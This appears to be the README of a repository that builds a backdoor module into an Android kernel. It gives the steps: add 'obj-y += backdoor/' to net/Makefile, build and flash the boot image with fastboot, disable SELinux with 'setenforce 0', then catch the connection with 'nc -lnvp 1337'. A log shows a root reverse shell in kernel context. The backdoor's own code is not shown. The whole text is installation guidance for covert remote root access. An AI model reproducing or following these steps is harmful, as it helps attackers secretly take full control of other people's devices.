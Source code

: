 # Add to kernel

Modify `net/Makefile`, add line somewhere below `obj-$(CONFIG_NET)`:

```
obj-y  += backdoor/
```
Copy `backdoor` dir under `net/`.

# Build

Run `mka bootimage`.

Flash using `fastboot flash boot boot.img`

# Disable SELinux

Run `setenforce 0`.

Right after that you should receive your shell connection:

```
$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on 192.168.2.127 44702
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
mydevice / # id
id
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
```
